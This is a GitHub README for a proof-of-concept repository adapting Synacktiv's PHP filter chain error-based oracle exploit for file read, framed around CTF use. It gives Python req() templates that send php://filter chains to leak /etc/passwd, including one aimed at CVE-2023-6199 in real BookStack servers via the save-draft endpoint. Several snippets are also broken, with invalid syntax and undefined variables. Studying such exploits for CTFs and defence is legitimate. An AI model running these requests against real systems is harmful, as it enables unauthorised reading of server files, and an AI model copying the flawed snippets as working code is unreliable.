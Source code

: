 # php_filter_chain_oracle_poc
## Overview

The Synacktiv team published an in-depth research article, *[PHP Filter Chains: File Read from Error-Based Oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle)*, initially disclosed at DownUnder CTF 2022. This research was based on a challenge by `@hash_kitten`, where players were tasked with leaking the `/flag` file from a vulnerable PHP-based infrastructure using **error-based oracles**.

Rather than diving into the deep technical internals (which can be reviewed in the **PoC comments**), this guide presents a **Procedural-Oriented Programming (POP) adaptation** of Synacktiv’s original Object-Oriented Programming (OOP) exploit [(available here)](https://github.com/synacktiv/php_filter_chains_oracle_exploit).

This POP-based approach makes it easier to understand the attack’s step-by-step execution, allowing for **customization of key parameters** when adapting the exploit with just one script, especially for CTF challenges.

- This repository includes two Proof-of-Concept (PoC) scripts:
  - **`poc.py`** – The **standard version**, structured with wrapped functions that cleanly separate each phase of the exploit.
  - **`poc_procedure.py`** – A **more procedure-oriented** approach, specifically designed for **CTF scenarios**, allowing step-by-step customization of the exploitation process.

## Scenarios

PHP filter chain exploits typically require the following attack primitives for **Arbitrary File Read**:

### 1. LFR via SSRF

- **Objective:** Exploiting Server-Side Request Forgery (SSRF), so that we can interact with the server using URLs and PHP stream wrappers (`php://filter`).
- **Example:** CVE-2023-6199 in [BookStack](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/) demonstrates **Local File Read (LFR) via SSRF**.

### 2. Oracle Recovery 

- **Objective:** Capture server responses from oracle-based exploits.
- **Tooling:** Wireshark, tcpdump, or BurpSuite to inspect HTTP responses.
- **Example:** A classic CTF challenge demonstrating this method is available [here](https://github.com/4xura/Bianry4CTF/blob/main/Labyrinth/misc/misc_php_filter_chain_oracle.zip).

## Using the PoC

Before executing the PoC, you need to **customize the `req()` function** to define how the exploit interacts with the target server. Because the specific request method (GET/POST/other) and SSRF entry point will vary depending on the scenario.

A basic example: sending the filter chain via a GET request:

```py
def req(s):
    """ [!] Customize the logic of requests """ 
    file_to_leak = '/etc/passwd'
    chain = f"php://filter/{s}/resource={file_to_leak}"
    
    import requests
    url     = f'http://example.com/ssrf.php?url={chain}'
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "Cookie"    : "sessionid=abcdefg123456",
    }
    response = requests.get(url=url, headers=headers=headers)
    
    """
    We send the requests and verify the responses
    If status_code == 200, returns False and stop brute forcing, 
    while we should continue when the server returns 500 (True)
	"""
    return response.status_code == 500
```

To exploit [CVE-2023-6199](https://nvd.nist.gov/vuln/detail/CVE-2023-6199), the `req()` function can be defined for example:

```py
def req(s):
    """ [!] Customize the logic of requests """ 
    file_to_leak = '/etc/passwd'
    chain = f"php://filter/{s}/resource={file_to_leak}"
	""" Base64 encode the filter embedded inside an <img> tag """
    import base64
    chain_b64 = base64.b64encode(filter_chain.encode("ascii")).decode("ascii")
    html = f"<img src='data:image/png;base64,{chain_b64}'/>"  
    data = {
        "name":"axura", 
        "html": html,
    }
	
    """ Send PUT requests to BookStack server """
    import requests
    target = 'https://bookstack.example.com/ajax/page/8/save-draft'
    try:
        response = session.put(
                target,
                data=data,
            )       
    	return response.status_code == 500
    
    except requests.exceptions.ConnectionError::
        print("[-] Could not instantiate a connection")
        exit(1)
```

Once the `req()` function is properly configured, simply execute the script with:

```sh
python3 poc.py
```

If something went wrong (which is possible due to special request data conversion, base64 output filtering logic, or unexpected server responses), use the comments in the scripts to debug the exploit process.
